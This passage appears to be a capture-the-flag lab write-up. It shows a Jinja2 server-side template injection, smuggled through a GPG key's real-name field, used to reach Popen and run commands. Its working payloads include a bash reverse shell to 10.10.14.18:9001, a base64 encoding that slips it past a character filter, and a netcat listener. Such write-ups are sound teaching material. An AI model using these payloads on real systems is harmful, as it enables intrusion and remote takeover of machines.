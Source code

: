 We get closer and closer to the Popen function. Eventually, I found that Popen was at position 439. Now, we can try remote code execution:

```
{{ "".__class__.__mro__[1].__subclasses__()[439] ('ls',shell=True,stdout=-1).communicate() }}
```

![popen_ls](popen_ls.png)

And it worked! The b'SSA\n' means that there's one file/directory called SSA. We can now execute commands on the machine. Let's try to get a reverse shell:

```
$ gpg --gen-key
gpg (GnuPG) 2.4.3; Copyright (C) 2023 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: {{ "".__class__.__mro__[1].__subclasses__()[439] ('bash -i >& /dev/tcp/10.10.14.18/9001 0>&1',shell=True,stdout=-1).communicate() }}
Invalid character in name
The characters '<' and '>' may not appear in name
Real name:
```

It turns out we can't put < and > characters in the gpg real name. This means our direct Bash shell won't work. let's try encoding it using base64:

```
$ echo "bash -i >& /dev/tcp/10.10.14.18/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAxIDA+JjEK
$ gpg --gen-key
gpg (GnuPG) 2.4.3; Copyright (C) 2023 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: {{ "".__class__.__mro__[1].__subclasses__()[439] ('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAxIDA+JjEK" | base64 -d | bash',shell=True,stdout=-1).communicate() }}
Email address:
```

This time it worked. We now start our netcat listener:

```
$ nc -lvnp 9001
```

And we execute the payload. We got our shell as atlas!
